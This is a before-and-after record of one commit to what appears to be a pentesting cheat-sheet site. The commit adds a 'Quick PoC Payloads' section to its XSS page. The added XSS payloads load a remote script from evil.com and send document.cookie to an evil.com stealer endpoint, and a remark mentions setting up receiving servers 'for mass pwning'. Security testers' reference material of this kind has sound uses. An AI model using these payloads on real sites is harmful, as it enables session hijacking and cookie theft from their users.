

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Web/XSS.md, in a window 1280 px wide and 1065 px high. Shown: the whole window at 94% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update XSS.md
Added some basic XSS payloads

````diff
--- a/docs/Web/XSS.md
+++ b/docs/Web/XSS.md
@@ -1,6 +1,4 @@
 # XSS Tips
-
-
 
 ---
 ## DOM Based
@@ -14,3 +12,17 @@
         ```bash
         grep -ER "<VARIABLE>[ ]+=" ./
         ```
+## Quick PoC Payloads
+* `img` tag to CSRF
+```
+<img src=a onerror="x=document.createElement('script');x.src='https://evil.com/really_evil.js';document.body.appendChild(x)" />
+```
+* Class cookie stealer
+    * You may setup receiving servers, APIs, webhook for mass pwning
+```
+<img src=a onerror="location.href='https://evil.com/stealer.php?cookie='+document.cookie;">
+```
+* iFrame
+```
+<iframe src="javascript:alert(1)">
+```
````
